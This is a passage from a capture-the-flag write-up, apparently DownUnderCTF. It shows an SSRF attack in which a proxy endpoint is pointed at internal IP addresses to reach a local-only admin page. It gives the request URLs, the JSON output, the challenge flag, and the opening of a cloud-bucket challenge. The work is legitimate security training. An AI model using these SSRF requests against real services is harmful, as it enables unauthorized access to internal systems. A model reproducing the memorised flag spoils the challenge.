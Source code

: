 > Try to navigate to `/admin` and we are returned with a 403 Forbidden Error.

![image](https://user-images.githubusercontent.com/68913871/134805827-adfa13ee-b915-4c29-806f-0e9438838a39.png)

> It says only accessible from the local network. Keeping that in mind, we look at the proxy example `/request?url=http://example.com` and we get the following json:

```
{"hostname":"example.com","port":80,"redirect_url":"","status":"success","status_code":200,"text":"1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000\n    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00\n    inet 127.0.0.1/8 scope host lo\n       valid_lft forever preferred_lft forever\n    inet6 ::1/128 scope host \n       valid_lft forever preferred_lft forever\n3: eth0@if185: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1460 qdisc noqueue state UP group default \n    link/ether 6e:dd:77:78:50:24 brd ff:ff:ff:ff:ff:ff link-netnsid 0\n    inet 10.96.0.167/32 brd 10.96.0.167 scope global eth0\n       valid_lft forever preferred_lft forever\n    inet6 fe80::6cdd:77ff:fe78:5024/64 scope link \n       valid_lft forever preferred_lft forever\n","title":"Example"}
```

> Initially thought it was a [host header authentication bypass](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass) but after some googling, [this writeup](https://ctftime.org/writeup/12832) showed me that I can append ip addresses after `?url=` which is relevant in this context as seen in the proxy example earlier on.

> I proceeded to look for ip addresses in the json output and found `127.0.0.1` and `10.96.0.167`. I tried `/request?url=http://127.0.0.1/admin` but was given a Blacklisted Error.

![image](https://user-images.githubusercontent.com/68913871/134806089-a8e26d90-c8bf-44a6-9450-f18fcb515dc8.png)

> There was a loopback as the site was trying to redirect to itself. Hence, we have used the wrong ip. Try the other `/request?url=http://10.96.0.167/admin` and we get the flag embedded in the json output.

```
{"hostname":"10.96.0.167","port":null,"redirect_url":"","status":"success","status_code":200,"text":"<!doctype html>\n<title>Admin Panel</title>\n<link rel=\"stylesheet\" href=\"/static/style.css\">\n<section class=\"content\">\n  \n  <h1>Admin Panel</h1>\n\n  \n    <p>Lmao did they actually think we're not recording their requests \ud83d\ude02</p>\n    <hr>\n    <div>\n      \n        <p>http://0.0.0.0/admin from 679.645.939.511\n</p>\n      \n        <p>http://10.96.1.23/admin from 825.746.912.442\n</p>\n      \n        <p>http://example.com/admin from 463.686.353.735\n</p>\n      \n        <p>http://10.96.0.167 from 944.810.806.628\n</p>\n      \n        <p>http://10.96.0.167/admin from 634.645.444.608\n</p>\n      \n      <p>DUCTF{very_spooky_request}</p>\n    </div>\n    <hr>\n    <i>Yes the IPs are not real</i>\n\n</section>","title":"Admin Panel"}
```

`DUCTF{very_spooky_request}`

## Bad Bucket

![image](https://user-images.githubusercontent.com/68913871/134808969-80a78e18-f90d-497a-b454-64ce6c08e56c.png)

> Navigate to the [link](https://storage.googleapis.com/the-bad-bucket-ductf/index.html), cannot find anything interesting other than a few images of buckets. Since this is a cloud challenge, we know buckets contains objects which can be listed. Here, the bucket name is `the-bad-bucket-ductf`.
